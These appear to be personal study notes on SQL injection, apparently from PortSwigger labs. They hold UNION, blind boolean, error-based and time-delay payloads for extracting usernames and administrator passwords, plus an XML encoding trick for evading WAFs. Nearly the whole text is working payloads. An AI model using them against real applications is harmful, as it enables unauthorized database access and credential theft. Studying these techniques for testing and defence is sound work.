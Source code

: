 # Union attacks : 
General query : `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

How to determine the number of columns required ?
we use order by statment : 

	' order by 1 --, 
	' order by 2 --, 
	' order by 3 --, ...etc

until getting an error.

or
	' UNION SELECT NULL--
	' UNION SELECT NULL,NULL--
	' UNION SELECT NULL,NULL,NULL--, -etc.

for oracle, specific syntax `' UNION SELECT NULL FROM DUAL--`

Finding columns with a useful data type
we use the following payload when we know the number of columns : 

	' UNION SELECT 'a',NULL,NULL,NULL--
	' UNION SELECT NULL,'a',NULL,NULL--
	' UNION SELECT NULL,NULL,'a',NULL--
	' UNION SELECT NULL,NULL,NULL,'a'--

or 

	- UNION SELECT 1,2,3,4-- 

to retreive data, we can use  

	' UNION SELECT username, password FROM users--

another example when columns are not even 

	SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
	UNION SELECT username, 2, 3, 4 from passwords-- '


Retrieving multiple values within the same column we can use contact depending on the sql syntax

	' UNION SELECT username || '~' || password FROM users--

we can query information about the sql such as : 

	' UNION Database type	Query
	' UNION Microsoft, MySQL	SELECT @@version
	' UNION Oracle	SELECT * FROM v$version
	' UNION PostgreSQL	SELECT version()

Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.
example : 

	SELECT * FROM information_schema.tables
	SELECT * FROM information_schema.columns WHERE table_name = 'Users'
	SELECT * FROM my_database.users;
	

Notes : First we have to know the database name  database 	

	SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;  // to enumrate databases;

then see the tables within the db

	select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 
	
	// !!!!! reminder number of columns don't make the mistake!!!!!!

the dump the columns 

	select COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='users_xemvgh'

and then Get the data you need : 

	select username_ecephv,password_akjxku from users_xemvgh where username_ecephv = 'administrator' --

# Blind SQL Injection :
## Conditional response
blind sql injection, is when we have an injection without the visual output, the vuln occurs at the backend 

we start wy trigerring a false boolean logic and see if there is any change the page for example :

	…xyz' AND '1'='1 // here wothing will change
	…xyz' AND '1'='2 // here normaly we won't see welcome back for example.

first we start by knowing the length of the password for example : 

	xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
	xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'
	xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' 

and keep looping for all the entries until the password length.

## Error based injection
sometime we don't have some change in the web page'e behavior, we will trigger a an error and see the reponse the HTTP header.

	xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
	xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'

if we have a dirretent reponse for both quesries than we can suppose we have a blind sql injection error based.
we can go with the following payload :

	xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'
### Trigger another error based sqli with output

First thing try the sql injection if there is a potential injection : 

	TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--

it should resolve an error : `Argument END should be a boolean`
and to resolve this error 

	TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--

so once the error is resolved we can inject a `select` statement.

	TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--

or 

		TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users limit 1) AS int)--

## Time delay SQLi:

Some times the developper handle errors, but that doesn't mean the injection doesn't exist.
To test if the injction exists example :

	'; IF (1=2) WAITFOR DELAY '0:0:10'--
	'; IF (1=1) WAITFOR DELAY '0:0:10'--

Using this technique, we can retrieve data by testing one character at a time:

	'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
 depending on the DB, there are multipple syntaxes

 ## OAST techniques :
 //need to see this section in HTB, it's paid in Portswigger :'(

## SQL injection in different contexts
the SQL injections could also exist in JSON or XML format.
also, it exist ways to obfuscate the payload to evade WAFs:

	<stockCheck>
		<productId>123</productId>
		<storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
	</stockCheck>